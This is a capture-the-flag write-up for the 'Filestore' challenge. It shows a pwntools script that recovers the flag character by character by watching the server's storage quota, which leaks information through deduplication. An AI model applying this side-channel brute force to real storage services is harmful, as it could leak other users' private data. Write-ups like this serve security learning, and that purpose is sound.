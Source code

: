 # FILESTORE

## Descrition

We stored our flag on this platform, but forgot to save the id. Can you help us restore it?

`filestore.2021.ctfcompetition.com 1337`

[Attachment](6e5c4cbba595ef1c9d22bfd958dc9144b863081d359a4c27a366c5b8d48b99a26d9b5c4c4bb56db7890b6f188a1ae1b4371d568a22a12e4386d3c0f91dc6c29b.zip)

## Solution

Let's analyze the challenge

```terminal
$ nc filestore.2021.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
```

So we can 
- `load` -> retrieve the stored text using the id
```
Send me the file id...
QpNmkzQzzHy4SV8i
123
```
- `store` -> store some text
```
Send me a line of data...
123
Stored! Here's your file id:
QpNmkzQzzHy4SV8i
```
- `status` -> view the memory status
```
User: ctfplayer
Time: Sun Jul 18 20:11:24 2021
Quota: 0.026kB/64.000kB
Files: 1
```
- `exit` -> close the connection

Before analyzing the given file we started to make some test and found that if we enter `CTF{` the `Quota` value didn't change

```terminl
$ nc filestore.2021.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 20:16:51 2021
Quota: 0.026kB/64.000kB
Files: 1

Menu:
- load
- store
- status
- exit
store
Send me a line of data...
CTF{
Stored! Here's your file id:
kVLwEEpyVwpqwoI4

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 20:16:59 2021
Quota: 0.026kB/64.000kB
Files: 2
```

So maybe we can bruteforce one character of the flag per time

```python
#!/usr/bin/env python3
from pwn import *
import string

nc = remote('filestore.2021.ctfcompetition.com', 1337)

flag = 'CTF{'
last_quota = 26

for i in range(4, 26):
    for c in string.printable:
        nc.recvuntil(b'- exit')
        nc.sendline(b'store')
        nc.sendline((flag + c).encode())

        nc.recvuntil(b'- exit')
        nc.sendline(b'status')

        nc.recvuntil(b'Quota: ')
        quota = int(float(nc.recvuntil(b'kB')[:-2]) * 1000)
        print(c, quota)
        if quota == last_quota:
            flag += c
            print('Found partial flag:', flag)
            break

        last_quota = quota

print('Found flag:', flag)
```

```terminl
$ python filestore.py 
[+] Opening connection to filestore.2021.ctfcompetition.com on port 1337: Done
.
.
.
Found flag: CTF{CR1M3_0f_d3d00CTF{CR1M
```

We are on the right path, some small change to the script and we are good to go

```python
flag = 'CTF{CR1M3_0f_d3d'
```

```terminal
$ python filestore.py 
[+] Opening connection to filestore.2021.ctfcompetition.com on port 1337: Done
.
.
.
Found flag: CTF{CR1M3_0f_d3d0f_d3dup1ic4ti0n000102
```

#### **FLAG >>** `CTF{CR1M3_0f_d3dup1ic4ti0n}`